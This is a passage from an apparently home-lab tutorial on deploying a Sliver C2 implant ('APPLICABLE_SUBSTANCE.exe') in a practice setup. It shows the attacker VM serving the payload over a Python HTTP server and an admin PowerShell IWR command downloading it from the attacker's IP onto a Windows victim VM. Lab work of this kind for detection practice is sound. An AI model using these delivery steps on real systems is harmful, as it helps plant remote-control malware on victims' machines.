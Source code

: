 We should be seeing something like this:
![alt text](https://raw.githubusercontent.com/raulpz/raulpz.github.io/main/assets/images/sliverpayload.png)

C2 Payload name is "APPLICABLE_SUBSTANCE.exe"

Good, type "exit".

Now we need to transfer this payload to our Victim, the Windows O.S. VM.
Thanks to Mr. Capuano (go ahead and google Eric Capuano, follow him, tail him... etc), we have a very simple way of achieving this with Python:
```
python3 -m http.server 80
```
And that's it! (for now...).

#### Now, we are back with our Victim

Open Powershell (or Windows Terminal, we should be using Windows Terminal now a days) as Admin, and run this command, to Download the Payload from the Linux Attacker
into the Downloads folder of our Victim:
```
IWR -Uri http://172.16.162.128/APPLICABLE_SUBSTANCE.exe -Outfile C:\Users\User\Downloads\APPLICABLE_SUBSTANCE.exe 
```
#### Back to the Linux Attacker

This will be quick:

CRTL + C to kill the http server

